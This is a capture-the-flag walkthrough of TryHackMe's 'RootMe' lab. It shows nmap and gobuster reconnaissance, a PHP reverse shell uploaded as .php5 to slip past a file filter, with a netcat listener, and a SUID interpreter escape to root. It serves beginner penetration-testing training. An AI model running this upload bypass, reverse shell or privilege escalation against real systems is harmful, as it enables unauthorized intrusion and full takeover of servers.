 <!-- TOC -->

- [RootMe](#rootme)
    - [Reconnaissance](#reconnaissance)
    - [Getting a shell](#getting-a-shell)
    - [Privilege escalation](#privilege-escalation)

<!-- /TOC -->

# RootMe

[RootMe Room](https://tryhackme.com/room/rrootme)

A ctf for beginners, can you root me?

| Title | IP Address |
| :---- | :---- |
| RootMe | `1*.**.***.***` |

## Reconnaissance

```bash
sudo nmap -A -vv -T4 -oA initial 1*.**.***.*** 
```

> `22/tcp open *** syn-ack ttl 61 O***SSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`

> `80/tcp open **** syn-ack ttl 61 A***** httpd 2.*.** ((Ubuntu))`

```bash
gobuster dir -u 1*.**.***.***:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh,css,htm,html,js,php,py -t 100
```

> ```
> /u******              (Status: 301) [Size: 316] [--> http://1*.**.***.***/u******/]
> /index.php            (Status: 200) [Size: 616]                                    
> /css                  (Status: 301) [Size: 312] [--> http://1*.**.***.***/css/]    
> /js                   (Status: 301) [Size: 311] [--> http://1*.**.***.***/js/]     
> /p****                (Status: 301) [Size: 314] [--> http://1*.**.***.***/p****/]  
> /server-status        (Status: 403) [Size: 278]
> ```

## Getting a shell

Using the famous __pentestmonkey's PHP reverse shell__

Copy and modify `/usr/share/webshells/php/php-reverse-shell.php`

```php
// php-reverse-shell.php5
$ip = '1*.*.**.**';  // CHANGE THIS
$port = 80;       // CHANGE THIS
```

```bash
mv php-reverse-shell.php php-reverse-shell.php5
```

Upload to: `http://1*.**.***.***/p****/`

```bash
nc -lvnp 80
```

Go to: `http://1*.**.***.***/u******/php-reverse-shell.php5`

RHOST:

```bash
find / -type f -name user.txt 2>/dev/null
```

> `/***/***/user.txt`

```bash
cat /***/***/user.txt
```

> `THM{***_***_*_*****}`

## Privilege escalation

```bash
find / -perm -4000 2>/dev/null
```

> `/***/***/******`

Using [GTFOBins](https://gtfobins.github.io):

```bash
p***** -c 'import os; os.execl("/bin/sh", "sh", "-p")'
find / -type f -name r***.***
```

> `/****/root.txt`

```bash
cat /****/root.txt
```

> `THM{*********_**********}`
